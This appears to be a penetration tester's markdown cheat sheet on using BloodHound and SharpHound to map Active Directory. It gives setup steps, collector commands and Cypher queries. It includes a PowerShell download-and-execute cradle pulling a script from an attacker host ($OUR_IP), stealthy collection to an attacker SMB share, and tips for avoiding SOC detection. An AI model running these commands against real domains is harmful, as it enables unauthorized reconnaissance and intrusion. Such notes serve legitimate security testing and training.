```yaml
---
tags:
  - tool
  - active_directory
---
```

# BloodHound

Reveal hidden relationships within AD

SharpHound - Official data collector for BloodHound, performs all enumeration automatically and outputs to .json files ([documentation](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html))

## Setup

### Community Edition

```powershell
# Change to docker compose directory
cd /opt/BloodHound/examples/docker-compose

# Install bloodhound
sudo docker compose pull

# Execute
sudo docker compose up

# Copy passwd and navigate to:
http://localhost:8080
# Creds are spam@example.com:<passwd>

# Clear database
cd /opt/BloodHound/examples/docker-compose
sudo docker compose down
```

### SharpHound (collector)

```powershell
# Grab local legacy collectors in kali
cp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1 .
cp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.exe .
```

```powershell
# Import
iex(new-object net.webclient).downloadstring("http://$OUR_IP/SharpHound.ps1")
Get-Help Invoke-BloodHound

# Execute
.\SharpHound.exe -c All
.\SharpHound.exe -c All -d $DOMAIN --outputprefix $DOMAIN
.\SharpHound.exe -c All -d $DOMAIN --domaincontroller $DC
Invoke-BloodHound -CollectionMethod All

# Execute stealthily (previously connected to remote share with net)
smbserver.py -smb2support share $(pwd) -username $USER -password '$PASSWD'
powershell net use \\10.10.14.2\share /user:$USER '$PASSWD'
.\SharpHound.exe -c all --memcache --outputdirectory \\$OUR_IP\share\ --zippassword test --randomfilenames

# Execute over time for session data (every min for the next hour), requires administrator
.\harpHound.exe -c Session --loop --loopduration 01:00:00 --loopinterval 00:01:00

# Query valid users from unzipped json
cat users.json | jq -r '.data[].Properties.samaccountname' | grep -v null > ../valid_users.txt
```

**Note:** Use the `DConly` collection method in large environments that have a SOC to minimize traffic footprint.

This diagram is slightly outdated but should still give a good idea of the differences between collection types.

![](Attachments/Untitled.png)

### BloodHound

We can now run BloodHound

```bash
# Start neo4j (creds - neo4j:neo4j)
sudo neo4j start
firefox http://localhost:7474 &
```

```bash
# Start bloodhound
bloodhound
```

**Note:** You can clear the database from inside the bloodhound GUI at the bottom of "Database Info"

We can now use the `Upload Data` function on the right side of the GUI to upload the zip file, or drag-and-drop it into BloodHound's main window.

See [here](https://support.websoft9.com/en/docs/neo4j) if you forgot your password.

## Analysis

- Start by marking owned targets
- We can now get a high level overview of the environment

`Find Shortest Paths to Domain Admins` (at the bottom of analysis tab)

Custom query cheatsheet: https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/

**Custom queries:**

```js
// Query node types
user:
group:
computer:
domain:
gpo:
ou:
container:

// Find WinRM Users
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2

// Find SQL admin rights
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

Node types we can prepend (exe. `user:` to pull all users)

**Active Directory**

- Group
- Domain
- Computer
- User
- OU
- GPO
- Container

**Azure**

- AZApp
- AZRole
- AZDevice
- AZGroup
- AZKeyVault
- AZManagementGroup
- AZResourceGroup
- AZServicePrincipal
- AZSubscription
- AZTenant
- AZUser
- AZVM
